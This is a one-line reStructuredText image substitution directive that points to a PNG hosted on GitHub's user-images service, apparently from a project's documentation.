.. |image| image:: https://user-images.githubusercontent.com/44453666/115149832-d6a75980-a033-11eb-9c50-56d4ea8ca57c.png
